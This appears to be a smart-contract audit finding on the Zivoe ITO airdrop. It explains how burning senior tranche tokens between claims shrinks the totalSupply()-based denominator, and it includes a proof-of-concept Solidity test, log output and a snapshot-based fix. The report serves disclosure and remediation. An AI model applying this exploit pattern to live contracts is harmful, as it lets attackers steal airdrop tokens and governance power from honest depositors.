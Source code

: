 # ITO can be manipulated
## Summary
The ITO allocates 3 pZVE tokens per senior token minted and 1 pZVE token per junior token minted. When the offering period ends, users can claim the protocol ZVE token depending on the share of all pZVE they hold. Only 5% of the total ZVE tokens will be distributed to users, which is equal to 1.25M tokens.

The ITO can be manipulated because it uses totalSupply() in its calculations.

## Vulnerability Detail
ZivoeITO.claimAirdrop() calculates the amount of ZVE tokens that should be vested to a certain user. It then creates a vesting schedule and sends all junior and senior tokens to their recipient.

The formula is 
 (in the code these are called upper, middle and lower).
```solidity
        uint256 upper = seniorCreditsOwned + juniorCreditsOwned;
        uint256 middle = IERC20(IZivoeGlobals_ITO(GBL).ZVE()).totalSupply() / 20;
        uint256 lower = IERC20(IZivoeGlobals_ITO(GBL).zSTT()).totalSupply() * 3 + (
            IERC20(IZivoeGlobals_ITO(GBL).zJTT()).totalSupply()
        );
```
These calculations can be manipulated because they use totalSupply(). The tranche tokens have a public burn() function.

An attacker can use 2 accounts to enter the ITO. They will deposit large amounts of stablecoins towards the senior tranche. When the airdrop starts, they can claim their senior tokens and start vesting ZVE tokens. The senior tokens can then be burned. Now, when the attacker calls the claimAirdrop function with their second account, the denominator of the above equation will be much smaller, allowing them to claim much more ZVE tokens than they are entitled to.

## Impact
There are 2 impacts from exploiting this vulnerability:

a malicious entity can claim excessively large part of the airdrop and gain governance power in the protocol
since the attacker would have gained unexpectedly large amount of ZVE tokens and the total ZVE to be distributed will be 1.25M, the users that claim after the attacker may not be able to do so if the amount they are entitled to, added to the stolen ZVE, exceeds 1.25M.

## Code Snippet
Add this function to Test_ZivoeITO.sol and import the console.

You can comment the line where Sue burns their tokens and see the differences in the logs.
```solidity
    function test_StealZVE() public {
        // Sam is an honest actor, while Bob is a malicious one
        mint("DAI", address(sam), 3_000_000 ether);
        mint("DAI", address(bob), 2_000_000 ether);
        zvl.try_commence(address(ITO));

        // Bob has another Ethereum account, Sue
        bob.try_transferToken(DAI, address(sue), 1_000_000 ether);
        
        // give approvals
        assert(sam.try_approveToken(DAI, address(ITO), type(uint256).max));
        assert(bob.try_approveToken(DAI, address(ITO), type(uint256).max));
        assert(sue.try_approveToken(DAI, address(ITO), type(uint256).max));

        // Sam deposits 2M DAI to senior tranche and 400k to the junior one
        hevm.prank(address(sam));
        ITO.depositBoth(2_000_000 ether, DAI, 400_000, DAI);
       
        // Bob deposits 2M DAI into the senior tranche using his both accounts
        hevm.prank(address(bob));
        ITO.depositSenior(1_000_000 ether, DAI);

        hevm.prank(address(sue));
        ITO.depositSenior(1_000_000 ether, DAI);

        // Move the timestamp after the end of the ITO
        hevm.warp(block.timestamp + 31 days);
        
        ITO.claimAirdrop(address(sue));
        (, , , uint256 totalVesting, , , ) = vestZVE.viewSchedule(address(sue));

        // Sue burn all senior tokens
        vm.prank(address(sue));
        zSTT.burn(1_000_000 ether);

        console.log('Sue vesting: ', totalVesting / 1e18);

        ITO.claimAirdrop(address(bob));
        (, , , totalVesting, , , ) = vestZVE.viewSchedule(address(bob));

        console.log('Bob vesting: ', totalVesting / 1e18);

        ITO.claimAirdrop(address(sam));
        (, , , totalVesting, , , ) = vestZVE.viewSchedule(address(sam));

        console.log('Sam vesting: ', totalVesting / 1e18);
    }
```solidity
Fair vesting without prior burning

  Sue vesting:  312499
  Bob vesting:  312499
  Sam vesting:  625001
Vesting after burning

  Sue vesting:  312499
  Bob vesting:  416666
  Sam vesting:  833333
Bob and Sue will be able to claim ~750 000 ZVE tokens and Sam will not be able to claim any, because the total exceeds 1.25M.

## Tool used
Manual Review

## Recommendation
Introduce a few new variables in the ITO contract.
```solidity
   bool hasAirdropped;
   uint256 totalZVE;
   uint256 totalzSTT; 
   uint256 totalzJTT;
```
Then check if the call to claimAidrop is a first one and if it is, initialize the variables. Use these variables in the vesting calculations.
```solidity
    function claimAirdrop(address depositor) external returns (
        uint256 zSTTClaimed, uint256 zJTTClaimed, uint256 ZVEVested
    ) {
            ...
            if (!hasAirdropped) {
                  totalZVE = IERC20(IZivoeGlobals_ITO(GBL).ZVE()).totalSupply();
                  totalzSTT = IERC20(IZivoeGlobals_ITO(GBL).zSTT()).totalSupply();
                  totalzJTT = IERC20(IZivoeGlobals_ITO(GBL).zJTT()).totalSupply();
                  hasAirdropped = true;
            }
            ...

           uint256 upper = seniorCreditsOwned + juniorCreditsOwned;
           uint256 middle = totalZVE / 20;
           uint256 lower = totalzSTT * 3 + totalzJTT;
      }
```
